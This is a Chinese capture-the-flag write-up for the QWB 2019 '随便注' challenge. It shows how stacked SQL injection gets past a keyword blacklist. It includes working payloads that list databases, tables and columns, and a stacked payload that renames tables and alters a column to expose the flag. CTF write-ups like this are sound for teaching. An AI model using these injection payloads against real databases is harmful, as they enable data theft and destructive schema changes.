 # 强网杯2019-Writeup

### 随便注：

![1576313506162](强网杯_2019-Writeup.assets/1576313506162.png)

构造URL发现是否存在注入点（废话）

``` url
/?inject=1 ' or '1'='1';#
```

![1576314055495](强网杯_2019-Writeup.assets/1576314055495.png)

通过查询发现，直接把原始的返回数据给返回到页面



随意构造了一个shelect语句，返回了过滤信息：

```
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

可以发现，这里过滤了：`select` `update` `dalete` `drop` `insert` `where` `.` 等敏感关键词

过滤的单词非常多，通过判断可以基本判定使用“**[堆叠注入（堆查询）](https://www.cnblogs.com/0nth3way/articles/7128189.html)**”是第一选择

构造堆叠注入判断Payload：`/?inject=1';show databases;#`查询所有数据库的库名

![1576314446969](强网杯_2019-Writeup.assets/1576314446969.png)

喏！可以判定这里存在“堆叠注入”

- 查询表名：`/?inject=1';show tables;#`

- 通过查询发现存在两个表：**words** 和 **1919810931114514** 

- 查询表字段：
  - `/inject=1';show columns from 1919810931114514;# `
    - 存在“flag“字段
    - 这张表里有flag
  - `/inject=1';show columns from words;#`
    - 存在 “id”和“data"两个字段
    - 可以发现这个表就是提交查询数据的那张表



从前辈的WP中了解到一招，将查询的默认表”words”改为“1919810931114514”

``` mysql
/?inject=1';
RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100);
show columns from words;#`
```

> - 表名重命名：`RENAME TABLE '原表名' TO '新表名'`
>
> - [ALTER TABLE](https://www.w3school.com.cn/sql/sql_alter.asp)：用于在已有的表中添加、修改或删除列
>   - ADD：添加字段 `ALTER TABLE 'table' ADD '新字段名' '类型'`
>   - DROP：删除字段`ALTER TABLE 'table' DROP COLUMN '字段名'`
>   - CHANGE：修改字段
>
> 

